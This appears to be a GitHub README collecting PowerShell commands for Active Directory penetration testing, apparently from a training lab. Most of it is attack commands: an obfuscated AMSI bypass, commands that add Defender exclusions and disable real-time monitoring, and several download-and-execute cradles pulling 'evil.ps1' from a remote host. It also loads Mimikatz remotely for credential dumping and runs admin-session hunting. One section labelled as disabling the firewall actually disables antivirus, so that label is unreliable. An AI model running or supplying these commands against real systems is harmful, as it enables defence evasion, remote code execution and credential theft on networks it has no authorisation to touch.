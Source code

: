 # PowerShell Scripts and Enumeration Techniques

This repository contains various PowerShell commands and scripts used for domain enumeration, local admin access, AMSI bypass, and other security-related tasks. Below are examples and explanations of various techniques that may be useful for penetration testing, system administration, and security auditing.

## 1. Domain Information Retrieval

### Command to Retrieve Domain Information

```bash
C:\Users\Naveen>cmd /c "hostname & whoami & ipconfig & whoami /priv"
```

### "Native executables and .NET classes:

```powershell
PS C:\Users\student157> [System.Net.Dns]::GetHostByName(($env:computerName))
PS C:\Users\student157> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\Users\student157> $ADClass::GetCurrentDomain()
```

## 2. PowerShell Script Execution Examples

### Loading PowerShell Scripts

- Load a PowerShell script using dot sourcing:
  ```powershell
  PS . C:\AD\Tools\Powershell.ps1
  ```

- Import a module:
  ```powershell
  Import-Module <modulename>.psd
  ```

- List all commands in a module:
  ```powershell
  Get-Command -Module <modulename>
  ```

### Get Help for PowerShell Commands

- Get help for `Get-NetGroup`:
  ```powershell
  get-help Get-NetGroup
  get-help Get-NetGroup -examples
  get-help Get-NetGroup -full
  get-help Get-NetGroup -detailed
  show-command Get-NetGroup
  Update-Help
  ```

## 3. Exclusion Adding for Specific Paths

### Add Exclusion Path for Anti-Virus

```powershell
powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath 'C:\AD'"
```

### Script Block Example for Disabling AMSI

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## 4. Disabling Anti-Virus Real-Time Protection

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## 5. PowerShell Script Execution Bypass

- Bypass Execution Policy:
  ```powershell
  powershell -ep bypass
  powershell -ExecutionPolicy bypass
  ```

- Run PowerShell command with encoded string:
  ```powershell
  powershell -encodedcommand <encoded_command>
  ```
### Enumerate Sessions on Any Machine

```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## 7. Remote Script Execution

### Loading PowerShell Scripts Remotely

- Using `iex` (Invoke-Expression) for remote script execution:
  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://192.168.230.1/evil.ps1')
  ```

### Download and Execute Remote Payload

```bash
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

-iex (iwr 'http://192.168.230.1/evil.ps1')

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader] ($r.GetResponseStream())).ReadToEnd()
```

## 6. Finding Local Admin Access

### Enumerate Local Admin Access

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> . .\Find-WMILocalAdminAccess.ps1
PS C:\AD\Tools> Find-WMILocalAdminAccess -ComputerFile .\computers.txt
```

### Checking for Domain Admin Sessions

```powershell
PS C:\AD\Tools> Invoke-UserHunter -Verbose   
PS C:\AD\Tools> Invoke-UserHunter -Verbose -GroupName "rdpusers"
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -stealth
```

## 8. Language Modes in PowerShell

PowerShell has four language modes:

- No Language
- Constant Language
- Restricted Language
- Full Language Mode

## 9. Finding Local Admin Access on Specific Machines

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 10. Disable Firewall Incoming Connections

- Disable firewall incoming connections to allow reverse shell:
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```

## 11. Using `Invoke-Mimikatz` for Credential Dumping

### Load and Execute Mimikatz

```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Dump hashes using Mimikatz:
  ```powershell
  Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
  ```

## 12. Handling Application Control (AppLocker)

- Enum AppLocker policies:
  ```powershell
  Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
  ```
